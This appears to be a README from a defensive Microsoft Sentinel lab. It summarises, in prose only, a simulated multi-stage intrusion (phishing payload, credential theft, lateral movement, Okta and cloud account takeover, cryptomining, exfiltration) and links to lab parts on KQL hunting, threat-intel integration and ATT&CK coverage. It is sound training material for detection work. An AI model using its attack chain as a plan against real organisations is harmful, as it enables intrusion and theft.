#### This was a multi-stage attack from an attacker infrastructure/network based in Moscow, whose initial attack vector began with a phishing email link to mirage's workstation: "win11a". The initial payload, "report.exe" was executed on that work station and havoc immediately ensued. The executable ran a script that spawned a number of sophisticated automated attacks all at the same time. These attacks included credential harvesting, lateral movement to many other hosts, file staging, encryption of (presumably) source code on a developer workstation, local network data exfiltration through C2 beacon channels, MFA manipulation and account takeover in Okta, backdoor users created in Okta and cloud platforms, cloud IAM rules manipulated in both privilege escalation and user creation, cloud compute resources harvested with expensive cryptomining instances, exfiltration of sensitive cloud files, injection of obfuscated commands (to reach out to attacker server) in previously made cloud instances, API keys stolen in Okta and GCP, and other malicious activity.

#### The attack mimicked many real world techniques/processes as well as network (both attacker's and victim's) infrastructure. Real world scenarios for such an attack would most likely occur on a larger scale, but many of the principle ideas seemed to be highly transferable to typical blue team SOC work/experience!

---


## Other Parts of Lab:

### [Part 1 - Exploration](Sentinel-Part-1/)
Initial data exploration across multiple enterprise security data sources using Advanced Hunting and KQL. Covers threat hunting across CrowdStrike EDR, Palo Alto firewall, Okta identity, and AWS CloudTrail logs, cross-source correlation of suspicious activity, and building a custom multi-tactic detection rule from scratch.

### [Part 2 - Microsoft Defender Threat Intelligence (MDTI) Integration](Sentinel-Part-2/)
Setting up and integrating the MDTI connector to correlate lab telemetry against Microsoft's global threat intelligence feed. Covers IOC correlation using STIX-formatted indicators, joining threat intel against firewall and cloud logs, and understanding the ThreatIntelIndicators table schema.

### [Part 3 - MITRE ATT&CK Coverage](Sentinel-Part-3/)
Analyzing detection coverage across the MITRE ATT&CK framework using the Sentinel UI. Covers identifying covered and uncovered tactics, understanding the distinction between Sentinel analytics rules and Defender XDR custom detection rules, and building an original Defense Evasion detection rule targeting process masquerading (T1036).
